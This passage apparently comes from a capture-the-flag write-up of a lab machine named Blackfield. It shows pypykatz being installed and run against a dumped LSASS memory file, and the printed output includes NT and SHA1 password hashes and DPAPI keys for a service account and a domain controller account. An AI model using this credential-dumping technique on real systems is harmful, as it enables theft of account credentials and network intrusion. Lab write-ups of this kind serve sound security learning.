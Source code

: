 once activated i can run:
```
pip3 install pypykatz
```
this takes sometime... might just be my kali box though lol
then based off the docs i beleive we just run:
```
pypykatz lsa minidump lsass.DMP
```

note when installing anything with pip3 it is a module now... lol i got all tripped up^

but when i run the above:
```
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
		DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
	== WDIGEST [633ba]==
		username svc_backup
		domainname BLACKFIELD
		password None
		password (hex)
	== Kerberos ==
		Username: svc_backup
		Domain: BLACKFIELD.LOCAL
	== WDIGEST [633ba]==
		username svc_backup
		domainname BLACKFIELD
		password None
		password (hex)

== LogonSession ==
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2020-02-23T17:59:38.218491+00:00
sid S-1-5-96-0-2
luid 365835
	== MSV ==
		Username: DC01$
		Domain: BLACKFIELD
		LM: NA
		NT: b624dc83a27cc29da11d9bf25efea796
		SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
		DPAPI: 0000000000000000000000000000000000000000
	== WDIGEST [5950b]==
		username DC01$
		domainname BLACKFIELD
```